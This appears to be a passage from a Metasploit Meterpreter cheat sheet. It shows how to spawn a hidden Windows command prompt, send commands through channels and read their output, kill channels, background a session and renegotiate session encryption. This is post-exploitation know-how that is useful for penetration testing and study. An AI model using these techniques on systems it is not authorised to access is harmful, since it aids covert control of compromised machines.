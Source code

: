 Spawn the command prompt then interact it manually using `channel`.

```
meterpreter > execute -Hcf cmd.exe

meterpreter > channel -i <channel_ID>
```

Spawn the command prompt.

```
meterpreter > execute -Hcf cmd.exe
```

Then insert commands to a specific `channel` ID.

```
meterpreter > channel -w <channel_ID>
Enter data followed by a '.' on a empty line:

whoami.exe
ping.exe -n 1 127.0.0.1
.
[*] Wrote <bytes> bytes to channel <channel_ID>
```

Then print the output instead of doing it interactively.

```
meterpreter > channel -r <channel_ID>
Read <bytes> bytes from <channel_ID>:
```

Terminate a specific channel ID.

```
meterpreter > channel -k <channel_ID>
```

Terminate all channels.

```
meterpreter > channel -K
Killing all channels...
Killed all channels.
```

## 2.8 - Background

```
meterpreter > background
[*] Backgrounding session 1...
```

## 2.9 - Re-encrypt key

(Re)negotiate TLV packets for encryption.

```
meterpreter > secure
[*] Negotiating new encryption key ...
[+] Done.
```
